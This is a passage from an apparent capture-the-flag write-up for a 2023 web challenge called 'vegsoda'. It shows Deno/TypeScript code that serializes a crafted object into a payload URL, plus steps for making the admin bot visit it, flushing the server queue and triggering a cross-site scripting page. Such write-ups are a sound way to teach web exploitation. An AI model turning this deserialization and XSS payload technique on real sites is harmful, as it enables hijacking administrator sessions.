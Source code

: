 ```ts
        "Carrot", // rabbits unite!
        "admin",
        note,
        UUID,
        "admin",
    )
}
let vio = "Vio" + serializer.serialize(stopYouViolatedTheLaw)

console.log(vio)
console.log(serializer.deserialize(vio))

Deno.writeFileSync("payload.txt", new TextEncoder().encode(`https://vegsoda-web.2023.ctfcompetition.com/status?type=Soda&content=${encodeURIComponent(vio)}`))
console.log("Payload written.")
```

...ask the admin bot to navigate to that payload URL...

![9680dba5ac832abf1c1d26f05dbf18d9.png](/assets/posts/veggiesoda/8f74d537a30f48d1b690bc6ae605d39e.png)

...spam create posts to ourselves to force the server-side queue to flush\*...

> \*Note: According to the code in `main.ts`, the server processes all queue requests in batches of at least size 3 every 30 seconds. To be honest, I found this quite annoying while developing the solution to this challenge!

...ask the admin bot to read our XSSSoda&trade; at `https://vegsoda-web.2023.ctfcompetition.com/sodas/e3586424-e765-49c4-8556-57377aed08f3`...
